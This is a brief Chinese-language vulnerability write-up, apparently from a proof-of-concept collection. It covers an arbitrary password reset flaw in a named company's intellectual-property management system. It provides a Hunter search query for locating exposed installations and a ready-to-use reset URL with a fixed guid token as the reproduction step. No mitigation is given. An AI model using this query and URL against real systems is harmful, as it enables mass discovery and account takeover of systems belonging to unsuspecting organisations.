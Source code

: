# 大为计算机软件开发有限公司知识产权协同创新管理系统任意密码重置

# 一、漏洞简介
大为计算机软件开发有限公司知识产权协同创新管理系统存在任意密码重置漏洞

# 二、影响版本
+ 大为计算机软件开发有限公司知识产权协同创新管理系统

# 三、资产测绘
+ hunter`web.body="大为计算机软件开发有限公司"`
+ 特征

![1698767180872-69f83182-733b-43aa-a0c6-32a65e6b9fc9.png](./img/_6NIYiUWOeUtuWby/1698767180872-69f83182-733b-43aa-a0c6-32a65e6b9fc9-204217.png)

# 四、漏洞复现
```plain
/resetPwd.html?guid=IWBI9HveWf01GlDm+je0Ec+qvHyI7F5bjy3kRC2uESwC0+KPmTxUsgHqj+lUuY0F061yruzA+jkZFb9hhNqPhw%3D%3D
```

![1698767201134-b65db187-0983-47ba-a3f0-ad7bac489060.png](./img/_6NIYiUWOeUtuWby/1698767201134-b65db187-0983-47ba-a3f0-ad7bac489060-985558.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rmi9xpgr32bsz4aq>